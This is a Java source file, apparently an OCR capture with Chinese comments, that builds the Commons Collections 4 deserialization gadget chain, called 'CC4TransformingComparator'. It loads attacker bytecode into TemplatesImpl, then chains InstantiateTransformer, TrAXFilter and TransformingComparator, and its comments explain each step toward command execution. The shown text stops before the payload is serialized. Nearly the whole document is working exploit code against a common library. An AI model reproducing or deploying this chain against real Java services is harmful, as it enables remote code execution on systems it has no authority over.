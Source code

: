 ```plain

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;
import java.util.PriorityQueue;

public class CC4TransformingComparator {
    public static void main(String[] args) throws Exception{

        TemplatesImpl Templates = new TemplatesImpl();
        //_name赋值，否则代码return中止
        Class tc = Templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(Templates,"aaa");
        //private byte[][] _bytecodes = null;如果为null，报出异常；
        //同时满足这个loader.defineClass(_bytecodes[i]);
        //Class defineClass(final byte[] b) {
        //            return defineClass(null, b, 0, b.length);
        //        }
        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);
        //一维数组满足defineClass参数从而命令执行
        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXP/Demo.class"));
        //二维数组满足：
        // private byte[][] _bytecodes = null;如果为null，报出异常；
        //同时满足这个loader.defineClass(_bytecodes[i]);
        byte[][] codes = {code};
        bytecodeField.set(Templates,codes);
//    避免_tfactory 为空指针而报错
//    TemplatesImpl.TransletClassLoader loader = (TemplatesImpl.TransletClassLoader)
//            AccessController.doPrivileged(new PrivilegedAction() {
//                public Object run() {
//                    return new TemplatesImpl.TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
//                }
//            });
//        Field tfactoryField = tc.getDeclaredField("_tfactory");
//        tfactoryField.setAccessible(true);
//        tfactoryField.set(Templates,new TransformerFactoryImpl());
//        Templates.newTransformer();

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{Templates});
//        instantiateTransformer.transform(TrAXFilter.class);//类不能序列化，class 可以
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer

        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);

        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer<>(1));
```